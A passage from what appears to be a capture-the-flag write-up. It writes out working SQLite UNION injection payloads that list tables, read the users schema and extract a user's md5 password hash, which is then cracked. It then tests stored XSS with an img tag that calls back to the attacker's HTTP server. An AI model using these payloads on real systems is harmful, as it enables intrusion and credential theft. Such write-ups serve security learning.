 I’ll list the table names using `")) UNION SELECT 1,group_concat(tbl_name),3,4
FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`.
It returns “users,notes,bookings,sessions”.

Thinking that the users table looks most interesting, I’ll get the columns
from it using `")) UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE
type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users'--
-`. I get back:

    
    
    CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))
    

I could keep digging around, but I’ll go for the data here with `")) UNION
SELECT 1,group_concat(username),3,4 FROM users-- -`. Only one user is
returned, the one I already know about, RickA. Now I’ll get the password,
replacing `group_concat(username)` with `password`, and it returns
“fdc8cd4cff2c19e0d1022e78481ddf36”. Given that’s 32 characters, it seems like
an md5, and [hashes.org](https://hashes.org/search.php) confirms it is the md5
of “nevergonnagiveyouup”:

![1567623372900](https://0xdfimages.gitlab.io/img/1567623372900.png)

### Escalation to administrator on Booking Details (XSS)

#### Enumeration

Now with the username and password, I can log into the site:

![1567623430937](https://0xdfimages.gitlab.io/img/1567623430937.png)

Clicking on the UUID shows the details:

![1567624559298](https://0xdfimages.gitlab.io/img/1567624559298.png)

On the Notes tab, there’s an input form:

![1567624580619](https://0xdfimages.gitlab.io/img/1567624580619.png)

It’s interesting to see the note that all notes must be approved, and that it
can take up to a minute. This implies some kind of user interaction, probably
once a minute.

#### XSS

First I like to start with an image to see if this theory is correct, and it’s
less likely to be filtered. I’ll start an http server, and submit `<img
src='http://10.10.14.30/test.jpg' />`. Within a minute I get a hit:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.25 - - [04/Sep/2019 15:30:18] code 404, message File not found
    10.10.10.25 - - [04/Sep/2019 15:30:18] "GET /test.jpg HTTP/1.1" 404 -
    